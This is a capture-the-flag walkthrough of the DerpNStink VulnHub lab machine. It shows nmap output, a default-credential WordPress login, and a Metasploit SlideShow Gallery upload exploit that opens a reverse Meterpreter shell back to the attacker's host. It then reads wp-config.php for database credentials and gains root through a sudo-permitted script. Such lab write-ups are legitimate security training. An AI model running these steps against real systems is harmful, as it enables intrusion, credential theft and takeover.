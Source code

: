 DerpNStink

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Content Discovery
[+] WPscan - default admin credentials 
[+] Wordpress Plugin Exploit -  Slideshow
[+] Wireshark Pcap analysis
[+] Privilege Escalation Abusing SUDO rights /binaries/derpy*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scanning Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
map scan report for 192.168.56.101
Host is up (0.00083s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 12:4e:f8:6e:7b:6c:c6:d8:7c:d8:29:77:d1:0b:eb:72 (DSA)
|   2048 72:c5:1c:5f:81:7b:dd:1a:fb:2e:59:67:fe:a6:91:2f (RSA)
|   256 06:77:0f:4b:96:0a:3a:2c:3b:f0:8c:2b:57:b5:97:bc (ECDSA)
|_  256 28:e8:ed:7c:60:7f:19:6c:e3:24:79:31:ca:ab:5d:2d (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/php/ /temporary/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: DeRPnStiNK
MAC Address: 08:00:27:66:46:4B (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Analysing the source page of the http://192.168.56.101 we get the first flag:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl http://192.168.56.101
... snip ...
<--flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166) -->

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Adding the host in /etc/hosts

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# cat /etc/hosts
127.0.0.1	localhost
127.0.1.1	kal1
192.168.56.101	derpnstink.local

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Dirb identified a /weblog that is hosted with wordpress

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DerpNStink/derpnstink1.png)

Tying credentials admin:admin we are able to login.

After loggin in we identify a Slideshow plugin. 
Searching for an exploit on this wordpress plugin.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
msf5 > search wp_slide

Matching Modules
================

   Name                                            Disclosure Date  Rank       Check  Description
   ----                                            ---------------  ----       -----  -----------
   exploit/unix/webapp/wp_slideshowgallery_upload  2014-08-28       excellent  Yes    Wordpress SlideShow Gallery Authenticated File Upload


msf5 > use exploit/unix/webapp/wp_slideshowgallery_upload
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set wp_PASSWORD admin
wp_PASSWORD => admin
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set wp_user admin
wp_user => admin
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set rhosts 192.168.56.101
rhosts => 192.168.56.101
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > set targeturi /weblog/
target => /weblog/
msf5 exploit(unix/webapp/wp_slideshowgallery_upload) > run

[*] Started reverse TCP handler on 192.168.56.102:4444 
[*] Trying to login as admin
[*] Trying to upload payload
[*] Uploading payload
[*] Calling uploaded file bdelqqbz.php
[*] Sending stage (38247 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.102:4444 -> 192.168.56.101:44256) at 2019-10-19 21:08:37 -0400
[+] Deleted bdelqqbz.php

meterpreter > 
meterpreter > shell
Process 4508 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash");'
</html/weblog/wp-content/uploads/slideshow-gallery$ 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Getting database credentials:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DeRPnStiNK:/var/www/html/weblog$ cat wp-config.php


/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');

/** MySQL hostname */
define('DB_HOST', 'localhost');

...snip...
/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');
...snip ...
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Logging in into php admin we get the following usernames and passwords:

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DerpNStink/derpnstink2.png)

Cracking the password hash we get the following credentials :

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DerpNStink/derpnstink3.png)

We try to login with username : stinky and password: wedgie57


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
www-data@DeRPnStiNK:/var/www/html$ su stinky
su stinky
Password: wedgie57

stinky@DeRPnStiNK:/var/www/html$ id
id
uid=1001(stinky) gid=1001(stinky) groups=1001(stinky)
stinky@DeRPnStiNK:~/Desktop$ cat flag.txt
cat flag.txt
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Pcap file

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
stinky@DeRPnStiNK:~/Documents$ ls -al
ls -al
total 4300
drwxr-xr-x  2 stinky stinky    4096 Nov 13  2017 .
drwx------ 12 stinky stinky    4096 Oct 20 00:37 ..
-rw-r--r--  1 root   root   4391468 Nov 13  2017 derpissues.pcap

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Copy the derpissue.pcap to /ftp folder.
Connect to FTP to download the pcap file

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
setrus@host:~$ ftp
ftp> open 192.168.56.101
Connected to 192.168.56.101.
220 (vsFTPd 3.0.2)
Name (192.168.56.101:setrus): stinky
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd files
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001      4391468 Oct 20 04:45 derpissues.pcap
drwxr-xr-x    2 1001     1001         4096 Nov 12  2017 network-logs
drwxr-xr-x    3 1001     1001         4096 Nov 12  2017 ssh
-rwxr-xr-x    1 0        0              17 Nov 12  2017 test.txt
drwxr-xr-x    2 0        0            4096 Nov 12  2017 tmp
226 Directory send OK.
ftp> get derpissues.pcap
local: derpissues.pcap remote: derpissues.pcap
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for derpissues.pcap (4391468 bytes).
226 Transfer complete.
4391468 bytes received in 0.21 secs (19.5075 MB/s)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Analysing the file with wireshark we found the password for user mrderp.

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/DerpNStink/derpnstink4.png)

Connecting as mrderp : derpderpderpderpderpderpderp


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~/vulnhub/dirkNStink# ssh mrderp@192.168.56.101
Ubuntu 14.04.5 LTS


                       ,~~~~~~~~~~~~~..
                       '  Derrrrrp  N  `
        ,~~~~~~,       |    Stink      | 
       / ,      \      ',  ________ _,"
      /,~|_______\.      \/
     /~ (__________)   
    (*)  ; (^)(^)':
        =;  ____  ;
          ; """"  ;=
   {"}_   ' '""' ' _{"}
   \__/     >  <   \__/
      \    ,"   ",  /
       \  "       /"
          "      "=
           >     <
          ="     "-
          -`.   ,'
                -
            `--'

mrderp@192.168.56.101's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

331 packages can be updated.
231 updates are security updates.

Last login: Mon Nov 13 01:03:13 2017 from 192.168.1.129
mrderp@DeRPnStiNK:~$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
mrderp@DeRPnStiNK:~$ sudo -l
[sudo] password for mrderp: 
Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
mrderp@DeRPnStiNK:~$ 
mrderp@DeRPnStiNK:~$ mkdir binaries
mrderp@DeRPnStiNK:~$ cd binaries/
mrderp@DeRPnStiNK:~/binaries$ echo '/bin/bash' > derpy.sh
mrderp@DeRPnStiNK:~/binaries$ chmod +x derpy.sh
mrderp@DeRPnStiNK:~/binaries$ sudo ./derpy.sh 
root@DeRPnStiNK:~/binaries# id
uid=0(root) gid=0(root) groups=0(root)
root@DeRPnStiNK:~/binaries# 

root@DeRPnStiNK:/root/Desktop# cat flag.txt
flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)

Congrats on rooting my first VulnOS!

Hit me up on twitter and let me know your thoughts!

@securekomodo

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

